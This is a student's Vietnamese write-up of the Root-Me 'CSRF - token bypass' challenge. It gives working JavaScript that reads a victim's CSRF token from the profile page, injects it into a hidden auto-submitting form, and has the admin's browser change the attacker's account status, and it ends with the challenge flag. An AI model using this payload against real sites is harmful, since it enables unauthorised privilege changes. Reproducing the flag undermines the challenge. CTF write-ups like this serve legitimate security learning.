


# Challenge: CSRF - token bypass
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 60 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass

- Bắt đầu vào thử thách, ta tạo tài khoản và đăng nhập, khi truy cập trang profile. Khi cố gắng gởi thay đổi thông tin status(chỉnh sửa mã nguồn) và submit tuy nhiên ta sẽ nhận được thông báo. "You're not a admin!", 
<p align="center"></p>

- Bài này cũng giống như bài trước flag có thể cũng lấy ở trang Private.
- Với trang contact thì ta có quyền submit. Với bài CSRF, ta sẽ tiến hành gởi form lên cho admin để admin thay ta gởi request tới server.
<p align="center"></p>

- Tuy nhiên bài này khác với những bài trước ở chỗ là nó có thêm token, người khi gởi form thì cần gởi kèm theo cái token này
<p align="center"></p>

- Do vậy mục tiêu của challenge này là cần phải bypass mã token này.
Như vậy ta cần phải lấy một token nào đó gắn vào form, để khi admin thực hiện request thì sẽ thành công. Nhưng mã token ở đâu ra?
- Giải pháp là ta sẽ dùng javascript để gởi request GET tới trang profile, và sau đó lấy mã token và đưa vào form 

```
var CSRF_token_Request = new XMLHttpRequest();
CSRF_token_Request.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);
CSRF_token_Request.send();
```
<p align="center"></p>

- Kết quả nhận được là từ response là mã html, ta cần lấy ra được mã token trong đoạn mã html này.
- Thực hiện request nhiều lần thì ta nhận ra rằng: `mã token là chữ chữ cái thường hoặc số, có số kí tự không đổ = 32` do vậy sẽ dùng match để lọc ra
<p align="center"></p>

> Vậy ta dùng `CSRF_token_Request.response.match(/[abcdefghijklmnopqrstuvwxyz0123456789]{32}/)[0]` để lấy token ra


- Do đó ta sẽ có ý tưởng gởi form profile cho admin, với các giá trị được đặt sẵn, với trường username là abc, và status là checked
<p align="center"></p>
<p align="center"></p>
- Sửa đổi một chút, ta chỉ cần những thẻ cần thiết, và đặt id cho form để có thể lấy form và submit tự động. Trong thẻ script ta cần thực hiện đặt giá trị của token trước khi gởi form.

```
<form id="form" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="text" name="username" value="abc">
    <input type="checkbox" name="status" checked >
    <input id="token" type="hidden" name="token" value="" />
    <button type="submit">Submit</button>
</form>
<script>
    var CSRF_token_Request = new XMLHttpRequest();
    CSRF_token_Request.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);
    CSRF_token_Request.send();

    document.getElementById("token").value = CSRF_token_Request.response.match(/[abcdefghijklmnopqrstuvwxyz0123456789]{32}/)[0]; 

    document.getElementById("form").submit();
</script>
```

- Nộp đoạn mã trên vào form contact.
<p align="center"></p>
- Sau một lúc ta vào trang private thì lúc này ta đã được quyền truy cập, ta nhận được flag ở đây 
<p align="center"></p>

## Kết quả flag là `Byp4ss_CSRF_T0k3n-w1th-XSS`